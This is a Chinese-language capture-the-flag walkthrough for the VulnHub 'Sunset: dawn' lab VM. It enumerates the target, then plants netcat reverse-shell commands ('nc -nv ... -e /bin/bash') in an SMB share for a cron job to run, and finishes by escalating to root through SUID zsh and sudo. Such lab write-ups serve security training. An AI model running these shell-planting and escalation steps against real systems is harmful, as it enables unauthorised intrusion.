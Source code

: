 # Sunset：dawn

## 环境

虚拟机平台：Oracle VM VirtualBox

攻击机：Kali（IP：192.168.56.102）

靶机：dawn（IP：192.168.56.105）

下载：https://www.vulnhub.com/entry/sunset-dawn,341/

## Let's go

```
nmap -A 192.168.56.105
```

![](./img/Sunset：dawn-01.png)

> **浏览网页并没有发现什么信息，我们进行枚举**

```
dirb http://192.168.56.105/
```

![](./img/Sunset：dawn-02.png)

![](./img/Sunset：dawn-03.png)

> **只有 management.log 允许查看，我们将他保存下来**

```
cat ./下载/management.log
```

![](./img/Sunset：dawn-04.png)

> **我们得到一些有价值的信息**
>
> 用户：dawn，ganimedes
>
> dawn下有一个ITDEPT目录
>
> 定时计划：product-control，web-control，phobos

```
enum4linux -a 192.168.56.105
```

![](./img/Sunset：dawn-05.png)

![](./img/Sunset：dawn-06.png)

> **和我们上面得到的信息联系起来了，所有出口一定在这里**

```
smbclient //192.168.56.105/ITDEPT		#使用SMB访问ITDEPT目录
```

![](./img/Sunset：dawn-07.png)

> **并没有发现 product-control，web-control 两个文件，我们可以尝试上传这两个文件等待定时计划执行**

```
echo 'nc -nv 192.168.56.102 4444 -e /bin/bash' > product-control
echo 'nc -nv 192.168.56.102 4445 -e /bin/bash' > web-control
put product-control
put web-control
```

![](./img/Sunset：dawn-08.png)

```
#监听等待
nc -lp 4444
nc -lp 4445
python -c 'import pty;pty.spawn("/bin/bash")'
```

![](./img/Sunset：dawn-09.png)

![](./img/Sunset：dawn-10.png)

```
find / -perm -u=s -type f 2>/dev/null
zsh
cat /root/flag.txt
```

![](./img/Sunset：dawn-11.png)

![](./img/Sunset：dawn-13.png)

```
sudo -l
sudo sudo -s
cat /root/flag.txt
```

![](./img/Sunset：dawn-12.png)